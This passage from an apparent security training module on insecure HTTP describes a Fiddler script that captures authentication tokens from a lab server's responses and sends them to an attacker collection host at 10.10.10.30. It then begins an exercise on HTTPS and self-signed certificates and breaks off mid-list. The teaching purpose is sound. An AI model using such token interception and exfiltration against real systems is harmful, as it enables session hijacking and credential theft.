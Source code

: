 ```
        catch(e){ Out = e.ToString();            
            FiddlerObject.alert(Out);
        }
        return Out;
    }
 ``` 

The script above will first intercept any successful authentication response from the targeted server (`oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/sessions") && oSession.responseCode == 200`).
When this happens, the authentication token will be collected from the response (`System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes)`) and sent to the attacker website in charge of collecting stolen information (`Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString)`).


Exercise 4: See how the samples behave with HTTPS
-----

Before starting this exercise, make sure that Fiddler is NOT capturing HTTPS requests, then close it down.

The basic failing we're addressing in this module is that sensitive data is being passed using HTTP. HTTP gives us no confidence that the sensitive data has not been intercepted or tampered with, or indeed that we are actually talking to the right host. Those are the things that HTTPS provides, and happily the sample apps do support HTTPS, in a flawed way, as you'd expect.

Now is the time to make sure you have a firm grasp of what HTTPS is, and how (to a superficial level at least) it works. This should include an understanding of the handshake process, what certificates are, and how they are used and trust established. If you're not already there, start here, and go no further in this module until you've got it ;-)

[https://en.wikipedia.org/wiki/HTTPS](https://en.wikipedia.org/wiki/HTTPS)

[https://en.wikipedia.org/wiki/Transport\_Layer\_Security#Description](https://en.wikipedia.org/wiki/Transport\_Layer\_Security#Description)

[https://en.wikipedia.org/wiki/Public\_key\_certificate](https://en.wikipedia.org/wiki/Public\_key\_certificate)

The sample apps use self-signed certificates for the domains 10.10.10.10 and 10.10.10.20 respectively. These are not trusted by your browser, as there is no chain of trust back to a trusted root certification authority (they do have a public key, so they enable the confidentiality/integrity bits of HTTPS). If you request either sample in a modern browser it will complain at you about untrusted connections. So now you should arrange matters so that the certificates provided by the samples are trusted, and at this point I should reiterate that you should have a firm grasp of what certificates and trust are about.

If you were foolish enough to trust that you got these certificates from me and to trust me and/or anyone else that has access to this repo then you might go right ahead and tell Windows/your browser to trust them. If you're more paranoid (you should be) find out how to create your own, keep them private and trust those ones - and either keep the .pem file names the same, or tweak the server.js code. Look at it this way: the sample apps are already compromised, because the private keys - the *-key.pem files - are published in a github repo :-O.

Here are 2 really bad things the samples do that you should **ensure** that you do not do in a production system:
